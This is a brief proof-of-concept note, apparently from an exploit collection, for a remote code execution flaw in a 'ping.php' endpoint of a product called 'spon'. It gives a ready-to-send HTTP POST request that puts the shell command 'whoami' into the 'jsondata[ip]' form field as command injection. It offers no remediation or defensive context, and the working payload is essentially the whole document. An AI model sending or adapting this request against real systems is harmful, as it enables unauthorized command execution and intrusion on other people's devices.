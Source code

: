 # spon_ping.php_rce
2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135504352?spm=1001.2014.3001.5502
@2
```
POST /php/ping.php HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

jsondata%5Btype%5D=123&jsondata%5Bip%5D=whoami

```
